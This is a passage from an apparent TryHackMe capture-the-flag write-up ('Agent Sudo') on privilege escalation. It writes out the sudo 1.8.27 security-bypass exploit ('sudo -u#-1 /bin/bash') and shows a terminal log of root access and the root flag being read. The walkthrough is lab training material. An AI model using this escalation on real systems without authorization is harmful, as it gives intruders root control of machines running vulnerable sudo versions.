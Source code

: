 Let's search for exploits for this sudo version on [Exploit-DB - sudo 1.8.27 - Security Bypass](https://www.exploit-db.com/exploits/47502) 

![img](https://raw.githubusercontent.com/TiXADZ/Write-Ups-THM-CTFs/main/images/Agent_Sudo/1.PNG#center)  

This exploit is for sudo version before 1.8.28 so it may work on the target. Let's try it :  
```
sudo -u#-1 /bin/bash
id -- to confirm that we are root
```

And we are **root !** Let's get the root flag :

```
james@agent-sudo:~$ sudo -u#-1 /bin/bash
root@agent-sudo:~# id
uid=0(root) gid=1000(james) groups=1000(james)
root@agent-sudo:~# cd /root
root@agent-sudo:/root# ls
root.txt
root@agent-sudo:/root# cat root.txt
To Mr.hacker,

Congratulation on rooting this box. This box was designed for TryHackMe. Tips, always update your machine. 

Your flag is 
*****************************
By,
DesKel a.k.a Agent R

```

<details><summary><b>Questions / Answers : Privilege escalation</b></summary></details>

## Conclusion 
